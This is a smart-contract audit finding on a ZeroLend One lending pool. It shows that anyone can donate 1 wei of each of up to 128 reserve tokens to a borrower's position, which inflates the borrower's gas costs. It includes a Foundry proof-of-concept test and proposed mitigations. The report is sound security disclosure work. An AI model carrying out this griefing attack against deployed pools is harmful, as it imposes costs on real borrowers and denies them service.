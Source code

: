 Shiny Seaweed Mongoose

Medium

# Borrower can be griefed with a donation of 1 wei to their position

### Summary

The maximum number of reserve tokens that a pool can have is 128. Before borrowing the reserve list is looped through, only the ones used as collateral are used to calculate the user's position (This costs about 14k gas).
The problem here is that anyone can supply to a position and the first supply to the position makes it to be used as collateral (That is an extra 14k in gas). Also, there is no restriction to the amount supplied to a position so an attacker can do this with one wei donation to the position.

### Root Cause


Looking at the supply function we can see that it can be called by anyone with any amount even 1 wei.

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/Pool.sol#L78C1-L80C4

```js
function supplySimple(address asset, address to, uint256 amount, uint256 index) public returns (DataTypes.SharesType memory) {
    return _supply(asset, amount, to.getPositionId(index), DataTypes.ExtraData({interestRateData: '', hookData: ''}));
  }
```

Looking at the executeSupply function we can see that the first deposit if a particular token enables it to be use as collateral.

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/SupplyLogic.sol#L58

```js
  function executeSupply(
    DataTypes.ReserveData storage reserve,
    DataTypes.UserConfigurationMap storage userConfig,
    DataTypes.PositionBalance storage balance,
    DataTypes.ReserveSupplies storage totalSupplies,
    DataTypes.ExecuteSupplyParams memory params
  ) external returns (DataTypes.SharesType memory minted) {

    ...
    bool isFirst;
@-> (isFirst, minted.shares) = balance.depositCollateral(totalSupplies, params.amount, cache.nextLiquidityIndex);

    // if this is the user's first deposit, enable the reserve as collateral
    if (isFirst && ValidationLogic.validateUseAsCollateral(cache.reserveConfiguration)) {
@->   userConfig.setUsingAsCollateral(reserve.id, true);
      emit PoolEventsLib.ReserveUsedAsCollateralEnabled(params.asset, params.position);
    }

    emit PoolEventsLib.Supply(params.asset, params.position, minted.shares);

    minted.assets = params.amount;
  }
```

These two functions give an attacker the tool to grieve a borrower by spamming their position with 1 wei worth of tokens.

When this is done borrowing will cost 2848514 gas which is 6.5 USD


### Internal pre-conditions


A pool of large reserve tokens e.g. 128 reserve tokens.
A user with a legitimate borrow position and low utilization on their collateral.



### External pre-conditions

_No response_

### Attack Path

1. Alice deposits a collateral of 1000 USD.
2. She borrows 200 USD.
3. The attacker spams Alice's position with 1 wei of all the 128 reserve tokens
4. Alice tries to borrow another 200 USD but the price is now significantly higher 6.5 USD.
5. To disable all the unnecessary reserves it will cost Alice approximately (913044 * 128 / 2) = 58434816 i.e 140 USD.

### Impact

Borrowers will be griefed and discouraged from taking more loans, it is a denial of service attack.

### PoC


Add the following test to the `forge/core/pool` folder and run the test.

This is the output.

Gas Used For Borrow              : 2848527
Gas used to disable collateral   : 913044

```js

// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.19;

import './PoolSetup.sol';

import {ReserveConfiguration} from './../../../../contracts/core/pool/configuration/ReserveConfiguration.sol';

import {UserConfiguration} from './../../../../contracts/core/pool/configuration/UserConfiguration.sol';

contract GGPOC is PoolSetup {
  using UserConfiguration for DataTypes.UserConfigurationMap;
  using ReserveConfiguration for DataTypes.ReserveConfigurationMap;


  MintableERC20[] tokens;
  MockV3Aggregator[] oracles;

  uint reserveCount = 128;

  address alice = makeAddr("alice");
  address bob = makeAddr("bob");
  uint256 mintAmount =  50000 ether;
  uint256 mintAmountB = 50000 ether;
  uint256 supplyAmountA = 500 ether;
  uint256 supplyAmountB = 750 ether;
  uint256 borrowAmountB = 350 ether;

  function setUp() public {
    poolImplementation = new Pool();

    poolFactory = new PoolFactory(address(poolImplementation));
    configurator = new PoolConfigurator(address(poolFactory));

    poolFactory.setConfigurator(address(configurator));

    for (uint i = 0; i < reserveCount - 1; i++) {
        tokens.push(new MintableERC20('TOKEN A', 'TOKENA'));
        oracles.push(new MockV3Aggregator(8, 1e8));
    }

    tokens.push(new MintableERC20('WETH9', 'WETH9'));
    oracles.push(new MockV3Aggregator(6, 3000 * 1e8));

    irStrategy = new DefaultReserveInterestRateStrategy(47 * 1e25, 0, 7 * 1e25, 30 * 1e25);

    vm.label(address(poolFactory), 'PoolFactory');
    vm.label(address(irStrategy), 'irStrategy');
    vm.label(address(configurator), 'configurator');

    poolFactory.createPool(_poolInitParams());
    IPool poolAddr = poolFactory.pools(0);
    pool = IPool(address(poolAddr));

    pos = keccak256(abi.encodePacked(alice, 'index', uint256(0)));
  }

  function testGGPOC() external {

    _mintAndApprove(alice, tokens[reserveCount - 1], mintAmount, address(pool));

    //Token index 0 is the collateral
    //Token index 1 is the borrowed token
    for (uint i = 0; i < reserveCount - 1; i++) {
        //Don't mint the borrowed token for alice
        _mintAndApprove(alice, tokens[i], mintAmount, address(pool));
        vm.prank(alice);
        pool.supplySimple(address(tokens[i]), alice, (supplyAmountA / (reserveCount - 1)), 0);
        //console.log("S: ", supplyAmountA / (reserveCount - 1));
    }

    //Mint the borrowed token for bob
    _mintAndApprove(bob, tokens[1], mintAmount, address(pool));
    vm.prank(bob);
    pool.supplySimple(address(tokens[1]), bob, supplyAmountB, 0); // 750 tokenB bob supply

    vm.startPrank(alice);

    pool.supplySimple(address(tokens[reserveCount - 1]), alice, 1, 0); // send 1 weth tokenA alice supply
    uint initialGas = gasleft();
    pool.borrowSimple(address(tokens[1]), alice, borrowAmountB, 0); // 100 tokenB alice borrow
    console.log("Gas Used For Borrow              :", initialGas - gasleft());
    uint initialGas2 = gasleft();
    pool.setUserUseReserveAsCollateral(address(tokens[4]), 0, false);
    console.log("Gas used to disable collateral   :", initialGas2 - gasleft());
    vm.stopPrank();

  }

function _poolInitParams() internal view returns (DataTypes.InitPoolParams memory p) {

    (
    address[] memory assets, 
    address[] memory rateStrategyAddresses, 
    address[] memory sources, 
    DataTypes.InitReserveConfig[] memory configurationLocal 
    ) = _generateAddresses();

    address[] memory admins = new address[](1);
    admins[0] = address(this);

    p = DataTypes.InitPoolParams({
      proxyAdmin: address(this),
      revokeProxy: false,
      admins: admins,
      emergencyAdmins: new address[](0),
      riskAdmins: new address[](0),
      hook: address(0),
      assets: assets,
      rateStrategyAddresses: rateStrategyAddresses,
      sources: sources,
      configurations: configurationLocal
    });
  }


  function _generateAddresses()
    internal view returns (address[] memory, address[] memory, address[] memory, DataTypes.InitReserveConfig[] memory) {
    address[] memory assets = new address[](reserveCount);
    address[] memory rateStrategyAddresses = new address[](reserveCount);
    address[] memory sources = new address[](reserveCount);
    DataTypes.InitReserveConfig memory config = _basicConfig();
    DataTypes.InitReserveConfig[] memory configurationLocal = new DataTypes.InitReserveConfig[](reserveCount);
    for (uint i = 0; i < reserveCount; i++) {
        assets[i] = address(tokens[i]);
        rateStrategyAddresses[i] = address(irStrategy);
        sources[i] = address(oracles[i]);
        configurationLocal[i] = config;
    }
    return (assets, rateStrategyAddresses, sources, configurationLocal);
  }

}
```





### Mitigation

1. Implement a minimum supply amount.
2. Reduce the amount of collateral that can be used for a position.
